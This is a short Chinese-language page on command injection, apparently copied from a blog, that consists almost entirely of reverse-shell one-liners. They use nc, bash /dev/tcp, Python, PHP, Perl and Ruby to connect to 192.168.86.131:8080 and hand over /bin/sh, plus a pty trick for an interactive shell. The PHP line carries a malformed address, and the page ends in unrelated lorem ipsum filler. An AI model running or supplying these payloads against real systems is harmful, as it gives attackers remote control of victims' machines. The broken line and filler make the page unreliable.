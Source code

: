 # 命令注入

> From https://www.smi1e.top/linux-%E5%8F%8D%E5%BC%B9shell%E6%96%B9%E6%B3%95/




## 反弹shell

```bash
nc -lvvp 8080 -t -e /bin/bash

bash -i >& /dev/tcp/192.168.86.131/8080 0>&1

python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.86.131",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("192.168.786131",8080);exec("/bin/sh -i <&3 >&3 2>&3");' #代码假设TCP连接的文件描述符为3，如果不行可以试下4,5,6

perl -e 'use Socket;$i="192.168.86.131";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

ruby -rsocket -e'f=TCPSocket.open("192.168.86.131",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

将shell变成tty交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
```



## Section 2

Nulla vitae elit libero, a pharetra augue. Cras justo odio, dapibus ac facilisis in, egestas eget quam. Cras mattis consectetur purus sit amet fermentum. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.
